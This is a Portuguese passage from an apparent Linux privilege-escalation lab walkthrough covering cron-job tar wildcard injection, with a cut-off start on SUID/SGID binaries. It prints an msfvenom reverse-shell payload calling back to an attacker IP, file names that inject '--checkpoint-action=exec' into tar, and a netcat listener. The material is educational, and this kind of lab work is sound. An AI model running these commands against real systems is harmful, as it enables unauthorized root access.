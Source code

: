 Observe que o tar possui opções de linha de comando que permitem executar outros comandos como parte de um recurso de ponto de verificação.

Para facilitar a geração de um payload, utiliza-se msfvenom, disponível no Kali, a fim gerar um binário ELF de shell reverso. Atualize o endereço IP LHOST para o IP do hsot atacante:

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```
Transfira o arquivo shell.elf para /home/user/ na VM Debian (você pode usar scp ou hospedar o arquivo em um servidor web em sua caixa Kali e usar wget). Adicione permissão de execução ao arquivo:

```shell
chmod +x /home/user/shell.elf
```

Para que funcione a exploração do tar, conforme consultado na página do GTFOBins, é necessário criar dois arquivos, conforme abaixo:

```shell
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
Quando o comando tar na tarefa cron for executado, o curinga (*) será expandido para incluir esses arquivos. Como seus nomes de arquivos são opções de linha de comando tar válidas, o tar irá reconhecê-los como tal e tratá-los como opções de linha de comando em vez de nomes de arquivos.

Configure um listener netcat nos host atacante na porta 4444 e aguarde a execução do cron job (não deve demorar mais de um minuto). Um shell root deve se conectar de volta ao seu ouvinte netcat.

```shell
nc -nvlp 4444
```

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 11 - SUID / SGID Executables - Known Exploits 

Existem permissões especiais que podem ser adicionadas a arquivos - SUID ou SGID. Quando o bit extra “4” é definido como usuário (Proprietário), ele se torna SUID (Definir ID do usuário) e quando o bit “2” é definido como grupo, ele se torna SGID (Definir ID do grupo).

Portanto, as permissões a serem procuradas ao buscar por SUID são:

```
SUID:

rws-rwx-rwx

GUID:

rwx-rws-rwx
```
Essas permissões podem oferecer uma fonte de elevação de privilégios.

Para localizar todos os arquivos com SUID/SGID em um ambiente Linux, execute:
